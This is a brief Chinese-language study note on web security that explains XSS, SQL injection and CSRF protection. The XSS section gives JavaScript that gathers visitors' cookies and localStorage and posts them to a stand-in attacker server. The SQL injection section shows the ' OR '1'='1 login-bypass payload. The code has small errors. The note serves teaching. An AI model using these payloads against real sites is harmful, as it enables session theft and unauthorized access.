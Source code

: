 #Web安全機制

## #XSS(Cross-site Scripting)

1.假設網站有一個留言板

![](/assets/螢幕快照 2017-02-02 下午2.02.41.png)

2.但該網站沒有過濾script標籤，而是直接使用innerHTML讓使用者輸入後直接顯示

3.這時假設剛才的test.js 改為 你的網域下的一隻js程式碼，然後該程式碼內含有

```
var test1 = document.cookie();
function allStorage() {
    var values = [],
        keys = Object.keys(localStorage),
        i = keys.length;

    while ( i-- ) {
        values.push( localStorage.getItem(keys[i]) );
    }

    return values;
}
var test2 = allStorage(); //取得所有localstorage傳給變數test2

最後把test1與test2用ajax傳給你自己的server，即可獲得每個瀏覽他網站的使用者cookie與localstorage

```

最後把test1與test2用ajax傳給你自己的server，即可獲得每個瀏覽他網站的使用者cookie與localstorage

Ex:
```
$.post('https://我的站點/test',{cookie: test1,localStorage: test2})
```


## #SQL Injection



```
var userName = req.body.username;
var passWord = req.body.password;

strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

POST時將資料寫入

```
userName = "1' OR '1'='1";
與
passWord = "1' OR '1'='1";

```
將導致原本的SQL字串被填為

```
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

上述語句等同於

```
strSQL = "SELECT * FROM users;"
```

將會取出所有使用者

https://zh.wikipedia.org/wiki/SQL%E8%B3%87%E6%96%99%E9%9A%B1%E7%A2%BC%E6%94%BB%E6%93%8A

## #CSRF(Cross-site request forgery) 

偽造用戶請求像網站發出惡意請求

防範方式:

server 在render畫面時會給出 csrfhash，並隱藏在表單中，之後client端提交，此csrf會跟著送到server並且進行比對

```
<form method="POST" action="/upload?_csrf={{ csrfhash }}" enctype="multipart/form-data">
  title: <input name="title" />
  file: <input name="file" type="file" />
  <button type="submit">上传</button>
</form>
```


